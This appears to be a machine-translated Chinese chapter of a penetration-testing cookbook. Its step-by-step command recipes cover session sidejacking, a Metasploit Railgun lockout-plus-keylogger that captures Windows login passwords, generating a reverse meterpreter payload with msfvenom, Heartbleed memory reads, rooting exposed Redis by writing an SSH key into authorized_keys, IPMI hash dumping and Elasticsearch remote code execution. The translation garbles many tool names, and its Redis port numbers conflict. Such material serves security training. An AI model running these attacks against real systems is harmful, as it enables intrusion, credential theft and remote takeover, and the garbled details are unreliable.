# 基于当前开发的网络开发

在本章中，我们将介绍以下配方：

*   中间有仓鼠和雪貂的人
*   探索 msfconsole
*   使用偏执狂计量器
*   一颗流血的心的故事
*   Redis 开发
*   拒绝 SQL–拥有 MongoDB
*   嵌入式设备黑客攻击
*   弹性搜索漏洞
*   老好人
*   这是斯巴达！

# 介绍

利用网络通常是一种方便的技术。很多时候，我们可能会发现，企业最脆弱的地方是网络本身。在本食谱中，您将了解一些我们可以测试网络并成功利用我们找到的服务的方法。

# 中间有仓鼠和雪貂的人

仓鼠是一种可以用来侧举的工具。它充当代理服务器，而 ferret 用于嗅探网络中的 cookie。在本食谱中，我们将了解如何劫持某些会话！

# 准备

Kali 已经预装了这个工具，让我们看看如何运行它！

# 怎么做。。。

仓鼠是非常容易使用，并带有一个用户界面。按照给定的步骤学习使用仓鼠：

1.  我们首先键入以下命令：

```
 hamster
```

以下屏幕截图显示了前面命令的输出：


2.  现在我们只需要启动浏览器并导航到`http://localhost:1234`：



3.  接下来，我们需要点击`adapters`并选择我们想要监控的界面：


4.  我们将等待一段时间，我们将在左侧选项卡的选项卡中看到会话：



如果几分钟后您没有看到会话，可能是因为仓鼠和雪貂不在同一文件夹中。仓鼠在后台运行并执行雪貂

有些用户可能会遇到问题，因为 64 位体系结构不支持 ferret。我们需要添加一个 32 位存储库，然后安装 ferret。可以使用：`dpkg --add-architecture i386 && apt-get update && apt-get install ferret-sidejack:i386`完成。

# 探索 msfconsole

在前面的章节中，我们已经介绍了 Metasploit 的一些基础知识。在本教程中，您将学习使用 MeterMeter 和 Metasploit 进行更有效利用的一些技术。

# 怎么做。。。

要了解 Metasploit，请遵循给定的步骤：

1.  让我们通过键入`msfconsole`来启动 Metasploit 控制台：



2.  要查看可用漏洞列表，我们使用以下命令：

```
 show exploits
```

以下屏幕截图显示了前面命令的输出：


3.  类似地，为了查看有效载荷列表，我们使用以下命令：

```
 show payloads
```

以下屏幕截图显示了前面命令的输出：



4.  Metasploit 还附带数百个辅助模块，包括扫描仪、模糊器、嗅探器等。要查看辅助命令，请使用以下命令：

```
 show auxiliary
```

以下屏幕截图显示了前面命令的输出：



5.  让我们通过以下命令使用 FTP fuzzer：

```
 use auxiliary/fuzzers/ftp/ftp_client_ftp
```

6.  我们将使用以下命令查看选项：

```
 show options
```

7.  我们使用以下命令设置 RHOSTS：

```
 set RHOSTS  x.x.x.x
```

8.  现在，我们运行辅助程序，它会在发生崩溃时通知我们：


# Metasploit 中的轨道炮

在本食谱中，我们将了解更多有关轨道炮的信息。Railgun 是仅限米计的 Windows 攻击功能。它允许直接与 Windows API 通信。

# 怎么做。。。

Railgun 允许我们执行 Metasploit 无法执行的许多任务，例如按下键盘键等。使用此功能，我们可以使用 Windows API 调用来执行我们需要执行的所有操作，以便更好地利用漏洞：

1.  在前面的章节中，我们已经看到了如何获得流量计会话。我们可以通过键入`irb`命令从 MeterMeter 跳入轨道炮：


2.  要访问 Railgun，我们使用`session.railgun`命令：



我们看到很多数据已经打印出来了。这些基本上是可用的 DLL 和我们可以使用的函数。

3.  为了更好地查看 DLL 名称，我们键入以下命令：

```
 session.railgun.known_dll_names
```

以下屏幕截图显示了前面命令的输出：



4.  要查看`.dll`的功能，我们使用以下命令：

```
 session.railgun.<dllname>.functions
```

以下屏幕截图显示了前面命令的输出：


5.  让我们尝试调用一个 API，它将锁定受害者的屏幕。我们可以通过键入以下命令来执行此操作：

```
 client.railgun.user32.LockWorkStation()
```

我们可以看到我们被锁在外面：



6.  让我们设想一种情况，我们希望获得用户的登录密码。我们有散列，但我们无法破解它。使用 Railgun，我们可以调用 Windows API 来锁定屏幕，然后在后台运行键盘记录器，因此当用户登录时，我们将获得密码。Metasploit 已经有了一个使用 Railgun 来完成这项工作的后期开发模块；让我们试试看！

    我们退出`irb`并将我们的计量器会话置于后台，然后使用模块：

```
 use post/windows/capture/lockout,keylogger
```

以下屏幕截图显示了前面命令的输出：


7.  我们使用`set session`命令添加会话。
8.  然后我们在这里设置`winlogon.exe`的 PID：

```
 set PID <winlogon pid>
```

9.  接下来，我们运行，可以看到用户输入的密码：



# 还有更多。。。

这只是我们看到的函数调用的一个示例。我们可以使用 Railgun 执行许多其他操作，例如删除管理员用户、插入注册表、创建自己的 DLL 等等。

欲了解更多信息，请访问：
[https://www.defcon.oimg/defcon-20/dc-20-presentations/Maloney/DEFCON-20-Maloney-Railgun.pdf](https://www.defcon.oimg/defcon-20/dc-20-presentations/Maloney/DEFCON-20-Maloney-Railgun.pdf) 。

# 使用偏执狂计量器

2015 年的某个时候，黑客们意识到，只要玩弄受害者的 DNS 并启动自己的处理程序进行连接，就有可能窃取/劫持他人的 MeterMeter 会话。这导致了 MeterMeter 偏执狂模式的发展和发布。他们引入了一个 API 来验证 msf 在两端提供的证书的 SHA1 散列。在这个食谱中，我们将看到如何使用偏执狂模式。

# 怎么做。。。

首先，我们需要 SSL 证书：

1.  我们可以使用以下命令生成自己的命令：

```
 openssl req -new -newkey rsa:4096 -days 365 -nodes -x509
        -keyout meterpreter.key -out meterpreter.crt
```

以下屏幕截图显示了前面命令的输出：


我们相应地填写国家代码等信息和其他信息：

```
 cat meterpreter.key meterpreter.crt > meterpreter.pem
```

2.  前面的命令基本上是先打开两个文件，然后将它们写入一个文件。然后，我们使用生成的证书生成有效负载，使用以下方法：

```
 msfvenom -p windows/meterpreter/reverse_winhttps LHOST=IP
        LPORT=443 HandlerSSLCert=meterpreter.pem
        StagerVerifySSLCert=true
        -f exe -o payload.exe
```

以下屏幕截图显示了前面命令的输出：



3.  要设置选项，请使用以下命令：

```
 set HandlerSSLCert /path/to/pem_file
 set StagerVerifySSLCert true
```

以下屏幕截图显示了上述命令的示例：



4.  现在我们运行我们的处理程序，我们看到 stager 验证了与处理程序的连接，然后建立了连接：


# 还有更多。。。

我们可以在使用`-PayloadUUIDName=`开关生成有效负载时提到我们自己的 UUID，从而将其提升到更高级的水平。使用此方法，即使其他攻击者可以访问我们的证书，他们也无法劫持我们的会话，因为 UUID 不匹配。

# 一颗流血的心的故事

HeartBleed 是 OpenSSL 加密中的一个漏洞，据说该漏洞于 2012 年引入，并于 2014 年公开披露。这是一个缓冲区过度读取漏洞，可读取的数据超过允许的数量。

在此配方中，您将学习如何使用 Metasploit 的辅助模块利用 HeartBleed。

# 怎么做。。。

要了解 HeartBleed，请执行以下步骤：

1.  我们通过键入以下内容启动`msfconsole`：

```
 msfconsole
```

以下屏幕截图显示了前面命令的输出：


2.  然后，我们使用以下命令搜索 HeartBleed 辅助程序：

```
 search heartbleed
```

以下屏幕截图显示了前面命令的输出：



3.  接下来，我们使用以下命令使用辅助命令：

```
 use auxiliary/scanner/ssl/openssl_heartbleed
```

4.  然后使用以下命令查看选项：

```
 show options
```

以下屏幕截图显示了前面命令的输出：


5.  现在，我们使用以下方法将 RHOSTS 设置为目标 IP：

```
 set RHOSTS x.x.x.x
```

6.  然后，我们使用以下命令将详细度设置为`true`：

```
 set verbose true
```

7.  然后我们输入`run`，我们现在应该在这里看到数据。此数据通常包含敏感信息，如密码、电子邮件 ID 等：



# Redis 开发

有时在 pentesting 时，我们可能会遇到一个 Redis 安装，它在无意中被公之于众。在未经验证的 Redis 安装中，最简单的方法是编写随机文件。在这个配方中，我们将看到如何在没有身份验证的情况下获得运行的 Redis 安装的根访问权限。

# 怎么做。。。

要了解如何利用 Redis，请按照给定的步骤进行操作：

1.  我们首先将 telnet 连接到服务器，并检查是否可以成功连接：

```
 telnet x.x.x.x 6379
```

以下屏幕截图显示了前面命令的输出：



2.  然后我们终止 telnet 会话。接下来，我们使用以下命令生成 SSH 密钥：

```
 ssh-keygen -t rsa -C youremail@example.com
```

3.  然后，我们输入要保存它的文件：



4.  我们的密钥是生成的；现在我们需要将其写入服务器：



5.  我们需要为此安装`redis-cli`；我们可以使用以下命令：

```
 sudo apt-get install redis-tools
```

6.  安装后，我们返回生成的密钥，并在密钥前后添加一些随机数据：

```
 (echo -e "\n\n"; cat id_rsa.pub; echo -e "\n\n") > key.txt
```

`key.txt`文件是我们的新密钥文件，有新行：


7.  现在我们需要用我们的密钥替换数据库中的密钥。因此，我们使用以下方式连接到主机：

```
 redis-cli -h x.x.x.x
```

8.  接下来，我们使用以下命令刷新键：

```
        redis-cli -h x.x.x.x -p 6350 flushall
```

以下屏幕截图显示了前面命令的输出：



9.  现在我们需要将密钥设置到数据库中。我们使用以下命令执行此操作：

```
 cat redis.txt | redis-cli –h x.x.x.x –p 6451 -x set bb 
```

10.  完成后，我们需要将上传的密钥复制到`.ssh`文件夹中；首先，我们使用以下命令检查当前文件夹：

```
 config get dir
```

11.  现在我们将目录更改为`/root/.ssh/`：

```
 config set dir /root/.ssh/
```

12.  接下来，我们使用`set dbfilename "authorized_keys"`更改文件名，并使用 save 保存：



13.  现在让我们尝试使用 SSH 连接到服务器。我们看到我们是根：



# 拒绝 SQL–拥有 MongoDB

MongoDB 是一个免费的开源跨平台数据库程序。它使用类似 JSON 的文档和模式。MongoDB 的默认安全配置允许任何人访问未经身份验证的数据。在此配方中，我们将了解如何利用此漏洞。

# 准备

MongoDB 默认在端口`27017`上运行。要访问 MongoDB，我们需要下载并安装 MongoDB 客户端。有多个客户端可用；我们将使用 Studio-3T，可从[下载 https://studio3t.com/.](https://studio3t.com/.)

# 怎么做。。。

请按照以下步骤进行了解：

1.  安装后，我们打开应用程序并选择“连接”。
2.  在打开的窗口中，我们单击一个新连接：


3.  然后，我们选择一个名称，在服务器字段中输入 IP 地址，然后单击保存：



4.  接下来，我们只需从列表中选择刚刚添加的数据库，然后单击 Connect。成功连接后，数据库名称将显示在左侧，数据将显示在右侧。

# 嵌入式设备黑客攻击

**智能平台管理接口**（**IPMI**）是一项技术，它让管理员几乎完全控制远程部署的服务器。

大多数公司在进行 pentest 测试时都会发现 IPMI。在此配方中，我们将了解如何发现 IPMI 设备中的漏洞。

# 怎么做。。。

要了解 IPMI，请遵循给定的步骤：

1.  我们开始 Metasploit：


2.  我们使用以下命令搜索与 IPMI 相关的漏洞：

```
 search ipmi
```

以下屏幕截图显示了前面命令的输出：


3.  我们将使用**IPMI 2.0 RAKP 远程 SHA1 密码哈希检索**漏洞；我们选择辅助词。存在多个漏洞，例如 CIPHER Zero，也可以尝试：

```
 use auxiliary/scanner/ipmi/ipmi_dumphashes
```

4.  接下来，为了查看选项，我们键入以下内容：

```
 show options
```

以下屏幕截图显示了前面命令的输出：



5.  这里，我们看到辅助函数自动尝试破解它检索到的哈希。

    我们设置 RHOSTS 并运行。成功利用后，我们将看到检索并破解的哈希：



# 弹性搜索漏洞

有时在进行 pentest 时，我们可能还会遇到一些在不同端口号上运行的服务。我们将在本食谱中介绍其中一项服务。Elasticsearch 是一个基于 Java 的开源企业搜索引擎。它可以用于实时搜索任何类型的文档。

2015 年，Elasticsearch 遭到 RCE 攻击，黑客可以绕过沙箱执行远程命令。让我们看看怎么做。

# 怎么做。。。

以下步骤演示如何利用 Elasticsearch：

1.  Elasticsearch 的默认端口为`9200`。我们启动 Metasploit 控制台：



2.  我们使用以下命令搜索 Elasticsearch 漏洞：

```
 search elasticsearch
```

以下屏幕截图显示了前面命令的输出：


3.  在这种情况下，我们选择利用漏洞：

```
 use exploit/multi/elasticsearch/search_groovy_script
```

以下屏幕截图显示了前面命令的输出：



4.  我们使用`set RHOST x.x.x.x`命令设置 RHOST：



5.  我们运行以下命令：

```
 run
```

6.  我们已经准备好了计量员会议。


# 另见

*   *探索 msfconsole*配方

# 老好人

Wireshark 是世界上使用最多的网络协议分析器。它是免费和开源的。它主要用于网络故障排除和分析。在本食谱中，您将学习有关 Wireshark 的一些基本知识，以及我们如何使用它分析网络流量，以了解哪些信息实际流经我们的网络。

# 准备

Kali 已经预装了这个工具，所以让我们看看如何运行它！

# 怎么做。。。

以下步骤演示了 Wireshark 的使用：

1.  可以使用`Wireshark`命令打开 Wireshark：



2.  我们选择要捕获流量的接口：


3.  然后，我们点击开始。显示过滤器用于在捕获网络流量时查看常规数据包过滤。例如：`tcp.port eq 80`如下图截图所示：



4.  应用过滤器将仅显示端口`80`上的流量。如果我们只想查看来自特定 IP 的请求，我们选择该请求并右键单击它。

5.  然后，我们导航到“应用为选定过滤器”：


